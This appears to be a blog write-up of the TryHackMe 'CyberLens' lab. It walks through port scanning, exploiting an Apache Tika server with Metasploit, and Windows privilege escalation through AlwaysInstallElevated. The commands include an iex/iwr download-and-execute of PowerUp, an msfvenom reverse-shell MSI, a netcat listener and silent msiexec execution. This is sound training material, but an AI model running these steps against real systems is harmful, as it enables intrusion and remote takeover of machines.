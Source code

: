 ```yaml
---
layout: post
title: CyberLens writeup (TryHackMe)
author: wizarddos
category: writeups
excerpt_separator: <!--more-->
---
```


(Wanna watch a video version?)
<iframe width="560" height="315" src="https://www.youtube.com/embed/-LRlxsA8_7E?si=a_k2oFa32vAi_9U1" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

Another day, another challenge. This time is easy one.
I don't know what to expect. I only know that there will be a webserver

Let's try it

It comes from [TryHackMe](https://tryhackme.com/r/room/cyberlensp6)

<!--more-->
First, add IP to `/etc/hosts`

I'll also add hostname to the enviromental variable

```
$ sudo echo 'MACHINE_IP cyberlens.thm' >> /etc/hosts
$ export HOST="cyberlens.thm"
```

Then, it's time for port scanning
```
$ rustscan -a $IP -- -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] File limit higher than batch size. Can increase speed by increasing batch size '-b 1048476'.
Open 10.10.138.96:80
Open 10.10.138.96:135
Open 10.10.138.96:139
Open 10.10.138.96:445
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -sC -sV" on ip 10.10.138.96
Depending on the complexity of the script, results may take some time to appear.
[~] Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-18 20:51 UTC
[...]
PORT    STATE SERVICE       REASON  VERSION
80/tcp  open  http          syn-ack Apache httpd 2.4.57 ((Win64))
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.57 (Win64)
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 33916/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 58379/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23678/udp): CLEAN (Timeout)
|   Check 4 (port 10426/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-18T20:51:21
|_  start_date: N/A
```

It looks like windows machine - it'll be harder for me as I'm not acustomed to it. 

I couldn't get anything from other ports, so let's get to work on port `80`

### Website enumeration

JS on main page unveils another port
```js
fetch("http://cyberlens.thm:61777/meta", {
            method: "PUT",
            body: fileData,
            headers: {
              "Accept": "application/json",
              "Content-Type": "application/octet-stream"
            }
          })
```

Scanning it, gives us more info
```
$ nmap -sC -sV $IP -p61777 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-18 23:02 CEST
Nmap scan report for cyberlens.thm (10.10.138.96)
Host is up (0.074s latency).

PORT      STATE SERVICE VERSION
61777/tcp open  http    Jetty 8.y.z-SNAPSHOT
|_http-title: Welcome to the Apache Tika 1.17 Server
|_http-cors: HEAD GET
|_http-server-header: Jetty(8.y.z-SNAPSHOT)
| http-methods: 
|_  Potentially risky methods: PUT
```

It runs Apache Tika - from my research it has an exploit in metasploit.

Launch it

### Exploiting

```
$ msfconsole
```

There's only one module for this service 
```
msf6 > use exploit/windows/http/apache_tika_jp2_jscript
```

We need to change `RHOSTS`, `RPORT` and `LHOST`
```
msf6 > set RHOSTS MACHINE_IP
msf6 > set RPORT 61777
msf6 > set LHOST YOUR_THM_IP
```

Then, we can run it
```
msf6 > exploit
```

Now, I've got a meterpreter shell - get user flag

I've spawned myself a typical CMD shell
```
meterpreter > shell
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
C:\Windows\system32>cd C:\Users\cyberlens\Desktop
C:\Users\CyberLens\Desktop>type user.txt
[REDACTED]
```

We've got a flag! Time for the hard part

### Privilege escalation

Let's fire up PowerShell
```
> powershell
```

Today, [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) became my best friend
```
PS > iex (iwr -usebasicparsing http://Your IP:8000/PowerUp.ps1)
```
And in kali
```
$ python3 -m http.server 8000
```

Then I run it and
```
PS > Invoke-allchecks

[*] Checking %PATH% for potentially hijackable .dll locations...


HijackablePath : C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\
AbuseFunction  : Write-HijackDll -OutputFile 'C:\Users\CyberLens\AppData\Local\Microsoft\WindowsApps\\wlbsctrl.dll' 
                 -Command '...'

[*] Checking for AlwaysInstallElevated registry key...


OutputFile    : 
AbuseFunction : Write-UserAddMSI
```

We see that there is a misconfigured registry key, that allows us to install MSI files as Admin.
[Time to exploit it](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#powerup)

First, create a payload on kali and set up python http server
```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f msi > shell.msi
$ python3 -m http.server 80
```
Then on windows I've downloaded that shell to Desktop
```
> wget http://10.9.3.108/shell.msi -o shell.msi
```

After setting up netcat listener
```
$ nc -lvnp 1337
```

I've executed malicious msi

```
> msiexec /quiet /qn /i shell.msi
```

And boom, we have shell. Let's grab the flag

```
> type C:\Users\Administrator\Desktop\root.txt
[REDACTED]
```
And that's it. Machine pwned

## Conclusion

I don't have too much experience with windows machines. While initial access was fairly easy, privesc was a little nightmare

I think I've spent like 3H on this box. Still kinda fun

I've discovered a new service, practices my metasploit usage and made learned windows privilege escalation method.

I really need to get things sorted out in windows privesc. I suck at it, not gonna lie.

Btw, check out my [normal blog](https://wizarddos.github.io/blog), where I post about overall IT and Programming

That's it - see you next time

